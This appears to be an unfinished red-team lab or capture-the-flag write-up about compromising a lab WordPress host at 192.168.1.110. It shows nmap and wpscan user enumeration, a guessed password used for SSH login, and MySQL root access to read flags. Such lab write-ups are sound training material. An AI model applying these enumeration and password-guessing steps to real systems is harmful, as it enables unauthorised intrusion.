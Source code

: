 # Red Team: Summary of Operations

## Table of Contents

## Exposed Services

Critical Vulnerabilities
Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sS -v -A 192.168.1.110/24
![Activity Day 2 part 1  command nmap -sS -v -A](https://user-images.githubusercontent.com/88813019/157799806-92218ca1-45ea-42da-98a9-9e6ead4560ae.PNG)

Insert scan output

This scan identifies the services below as potential points of entry:

### Target 1:

List of Exposed Services:
- Port 22 (SSH)
- Port 80 (HTTP)
- Port 111 (rcpbind)

The following vulnerabilities were identified on each target:

- Identification and Authentication Failures
- Weak passwords
- Unprotected files
- User Enumeration (WordPress)

## Exposed Services

The following vulnerabilities were identified on each target:

#### Target 1
We ran the command: wpscan --url http://192.168.1.110/wordpress --enumerate u
This command will find the usernames "michael" and "steven" 

We guess michaels password which is "michael"

![Activity Day 2 Part 1  users](https://user-images.githubusercontent.com/88813019/157802049-21bb43d6-8306-4f51-9368-67f0d35b9089.PNG)

- Using ssh michael@192.168.1.110 with his password "michael" to gain access to his account.

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

### Target 1

flag1.txt:

![Activity 1 Day 2  Flag 1 1](https://user-images.githubusercontent.com/88813019/157802938-dcb745a7-11a9-4f9a-8c27-76c080b6111e.PNG)

Command used: $grep flag * 1 service.html

flag2.txt: 

![Activity Day 2 Part 1  Flag 2](https://user-images.githubusercontent.com/88813019/157804510-9c3fab66-b2b7-4404-b403-023905c19974.PNG)

Command used: cat flag2.txt

flag3.txt: 

![flag3](https://user-images.githubusercontent.com/88813019/157804799-9bc22142-63ab-4ace-b189-837a8d1e5e6d.png)

Commands used: 
- mysql -h localost -u root -p
- show databases;
- use wordpress;
- show tables;
- select * from wp_posts;

Flag4.txt: 

![Activity 1 Day 2 part 7 1](https://user-images.githubusercontent.com/88813019/157805372-dfeeeb22-d81e-4091-b72d-4470cf44e2ae.PNG)

